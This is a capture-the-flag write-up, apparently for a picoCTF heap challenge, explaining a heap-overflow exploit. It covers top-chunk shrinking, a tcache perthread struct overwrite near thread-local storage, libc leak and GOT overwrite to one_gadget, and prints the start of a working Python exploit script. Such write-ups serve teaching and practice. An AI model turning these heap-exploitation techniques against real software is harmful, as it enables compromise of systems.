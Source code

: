 ```c
        case PKT_OPT_PING:
            putl(PKT_MSG_DATA, "PONG_OK");
            break;
        case PKT_OPT_ECHO:
            putl(PKT_MSG_DATA, (char *)&pkt->data[1]);
            break;
        default:
            putl(PKT_MSG_INFO, "E_INVAL");
            break;
        }
    }

    putl(PKT_MSG_INFO, "BOOT_EQ");
}
```
Sending packet, it was separated to 3 parts, size, type and data.
There was a heap overflow bug in receiving data. And this program didn't have any free call.
## Strategy
- In first, I overwrited size of topchunk to smaller value, and called malloc with a size greater than new size of topchunk to free top chunk. When I called malloc after freeing topchunk, a heap address was left in new malloced chunk so, I leaked heap address from it.
- Next, I called malloc with the size which will cause mmap syscall. The chunk from mmap was near Thread Local Storage. So, I overwrited the address of Tcache Perthread Struct to my fake struct I sent, to manipulate tcache. By manipulating tcache I leaked glibc address, and I did GOT overwrite in libc to one_gadget by same technique of libc leak. 
```python
#!/usr/bin/env python
import ptrlib as ptr


elf = ptr.ELF("./hft_patched")
libc = ptr.ELF("libc.so.6")
io = ptr.Process(elf.filepath)
# io = ptr.Socket("tethys.picoctf.net", 55233)


def send(sz, content, option=1):
    io.recvuntil(b"PKT_RES")
    io.send(p32(sz))
    if len(content) != 0:
        payload = p32(0) + p64(option) + content
    else:
        payload = p32(0) + b"\x01\0\0\0\0\0"
    io.sendline(payload)


p64 = ptr.p64
p32 = ptr.p32
u64 = ptr.u64
info = ptr.logger.info

######################
## LEAK HEAP ADDRESS
######################

send(0x10, b"")
send(0x10, b"A" * 8 + p64(0xD31))
send(0x1000, b"B" * (0x1000 - 16))
send(0x8, b"")

io.recvuntil(b":[")
heap_base = u64(io.recvline().strip(b"]")) - 0x2D0
```